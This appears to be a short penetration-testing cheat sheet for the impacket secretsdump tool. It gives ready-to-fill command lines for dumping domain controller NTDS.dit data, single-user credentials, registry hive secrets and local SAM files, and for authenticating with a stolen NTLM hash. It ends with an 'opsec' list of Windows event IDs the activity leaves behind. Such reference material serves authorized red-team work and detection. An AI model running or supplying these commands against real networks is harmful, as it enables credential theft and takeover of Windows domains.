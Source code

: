 ### source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py  

### dump registry hives and other data
```
impacket-secretsdump -dc-ip <dcIp> <domain>/<user>:<password>@<rhost> -history
```

### using with pass the hash
```
impacket-secretsdump -hashes :<ntlmHash> -dc-ip <dcIp> <domain>/<user>@<rhost>
```

### dump only ntds.dit (can also use DRSGetNCCHanges Method)
```
impacket-secretsdump -just-dc <domain>/<user>:<password>@<rhost>
```

### dump credentials of single user
```
impacket-secretsdump -just-dc <domain>/<user>:<password>@<rhost> -just-dc-user <user>
```

### dump from local registry hive copies
```
impacket-secretsdump -system <systemFile> -sam <samFile> -security <securityFile> LOCAL
```

### dump from local system and ntds.dit
```
impacket-secretsdump -ntds <ntdsFile> -system system <systemFile>  LOCAL
```

### opsec considerations 
```
Windows Security Log Event IDs
-Logon (4624)
-Logoff (4634)
-Special Logon (4672)

Windows System Logs
Service Control Manager (7040) -> multiple
```

